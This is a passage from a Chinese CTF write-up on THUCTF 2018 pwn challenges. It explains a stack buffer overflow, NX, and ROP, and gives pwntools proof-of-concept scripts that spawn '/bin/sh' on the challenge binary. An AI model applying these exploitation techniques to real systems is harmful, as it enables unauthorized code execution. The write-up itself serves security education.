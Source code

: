 ```python

p.recvuntil("Local Buffer >>")
p.sendline(payload2)
p.sendline('/bin/sh\0')
p.interactive() 
```

### THUCTF - stackoverflowwithoutleak

 IDA64 打开程序，F5 浏览程序逻辑（当然大佬都是直接看汇编的），找到如下函数：

![1538233719827](https://saferman.github.io/assets/img/thuctf2018/vul_stackoverflow.png)

很明显存在缓冲区溢出漏洞，我们使用 checksec.sh 检查一下程序保护机制：

![1538233991822](https://saferman.github.io/assets/img/thuctf2018/checksec_stackoverflowwithleak.png)

开启了**NX 保护**：NX 即 No-execute （不可执行）的意思，NX （DEP）的基本原理是将数据所在内存页标识为不可执行，当程序溢出成功转入 shellcode 时，程序会尝试在数据页面上执行指令，此时 CPU 就会抛出异常，而不是去执行恶意指令。 

考虑使用 ROP 绕过 NX 保护，但是我们不知道 libc.so 加载基地址，再次观察 IDA 发现：

![1538280891116](https://saferman.github.io/assets/img/thuctf2018/doit.png)

`ROP(Return Oriented Programming)` 即面向返回地址编程，其主要思想是在栈缓冲区溢出的基础上，通过利用程序中**已有的小片段 (gadgets)** 来改变某些寄存器或者变量的值，从而改变程序的执行流程，达到预期利用目的 。

解决本题读过的参考文献：

[NX 机制及绕过策略-ROP](https://www.jianshu.com/p/f3ebf8a360f0)

[一步一步学 ROP 之 linux_x64 篇](https://zhuanlan.zhihu.com/p/23537552)（推荐一个对这篇文章补充的连接：[Memory Leak & DynELF – 在不获取目标 libc.so 的情况下进行 ROP 攻击](http://oldblog.giantbranch.cn/?p=417#Memory_Leak_DynELF_8211_libcsoROP)）

[Memory Leak & DynELF - 在没有目标 libc.so 时进行 ROP 攻击](http://binarysec.top/post/2018-01-30-1.html)

[puts 函数编写 leak 教程](https://www.anquanke.com/post/id/85129)

如果你要使用 DynELF 的思路，就是

** 本题采用 puts 编写 DynELF 需要的 leak 函数，再使用 ROP 调用 scanf 将 "/bin/sh" 写入 .bss 段。**

但是本题非常特殊，首先**本题有一个 doit 函数，其中调用了 system 地址，可以直接利用**：

![1538287124688](https://saferman.github.io/assets/img/thuctf2018/doit_system.png)

第二本题有一个非常神奇的地方，如果只阅读 F5 的 IDA 代码是无法发现的：

![1538390721979](https://saferman.github.io/assets/img/thuctf2018/vul_mov.png)

 vul() 漏洞函数里面居然人为多了一条 `mov rdi,rsp`！这不就是将**rdi 指向了 scanf 输入位置**吗？！利用这一点可以很简单的实现 ROP ！最终的 POC 如下：

```python
# encoding :utf-8
from pwn import *

buf = "/bin/sh\0" + 'A'*(8192 - 8)  
buf += p64(0x400722)

p = process('./stackoverflow64_withoutleak')
# p = remote('pwn.thuctf2018.game.redbud.info', 20001)
p.recvuntil("welcome,plz:")
p.send(buf)
p.interactive()
```
